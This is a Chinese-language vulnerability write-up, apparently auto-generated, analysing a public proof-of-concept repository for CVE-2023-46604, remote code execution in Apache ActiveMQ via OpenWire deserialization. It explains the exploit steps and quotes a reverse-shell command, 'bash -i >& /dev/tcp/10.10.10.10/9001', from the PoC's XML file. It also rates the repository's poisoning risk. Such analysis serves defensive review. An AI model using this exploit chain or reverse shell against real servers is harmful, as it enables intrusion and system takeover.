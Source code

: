 ## CVE-2023-46604-Apache ActiveMQ-远程代码执行

**漏洞编号:** CVE-2023-46604

**漏洞类型:** 远程代码执行

**影响应用:** Apache ActiveMQ

**危害等级:** 高危，可能导致远程代码执行和系统控制

**影响版本:** < 5.15.16, < 5.16.7, < 5.17.6, < 5.18.3

**利用条件:** 需要网络访问ActiveMQ服务，且目标系统存在受影响的ActiveMQ版本。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2023-46604是Apache ActiveMQ中的一个反序列化漏洞，存在于OpenWire协议中。攻击者可以利用此漏洞，通过构造恶意的序列化数据，使ActiveMQ服务端或客户端（取决于攻击目标）实例化任意类，从而执行任意代码。利用方式如下：

1.  **漏洞原理：** OpenWire协议在处理序列化数据时，没有充分验证数据的合法性，导致可以被恶意构造。
2.  **利用方法：** 攻击者发送特制的OpenWire消息，消息中包含恶意类的序列化数据。当ActiveMQ尝试反序列化这些数据时，会导致恶意类被实例化，执行其中的代码。
3.  **POC分析：**
    *   `exploit.py`:  Python脚本，用于构造并发送恶意OpenWire消息。
        *   脚本接受目标IP、端口和包含Spring XML配置文件的URL作为参数。
        *   脚本构造一个OpenWire消息，消息体包含`org.springframework.context.support.ClassPathXmlApplicationContext`类名和XML配置文件的URL。
        *   脚本将消息发送到目标ActiveMQ服务器。
    *   `poc.xml`:  Spring XML配置文件，用于执行任意命令。
        *   配置文件定义了一个`java.lang.ProcessBuilder` bean，并设置了`init-method`为`start`，这意味着在bean被创建时，`start`方法会被自动调用。
        *   `constructor-arg`定义了`ProcessBuilder`的构造函数参数，这里是一个包含`bash`命令的列表，用于执行反向shell。
4.  **投毒风险评估：**

该仓库中的代码主要用于触发和利用漏洞，本身**不包含明显的恶意代码**（例如，持久化后门、信息窃取等）。然而，由于此漏洞允许远程代码执行，攻击者**可能利用此漏洞植入恶意软件**。`poc.xml`中使用了`bash -i >& /dev/tcp/10.10.10.10/9001 0>&1`指令，这是一个常见的反弹shell方法，可以判定为合法的利用代码，不能算投毒。

因此，**投毒风险较低，但存在通过漏洞利用植入恶意代码的可能性。**我们分析得出投毒风险的可能性为5%。绝大部分风险来源于漏洞本身，而非仓库作者的恶意行为。

5. **有效性:**
   根据漏洞库信息、搜索结果以及漏洞利用代码分析，该漏洞可以利用，并且互联网上已存在多种利用此漏洞的恶意行为，具有较高的有效性。

**项目地址:** [evkl1d/CVE-2023-46604](https://github.com/evkl1d/CVE-2023-46604)

**漏洞详情:** [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604)
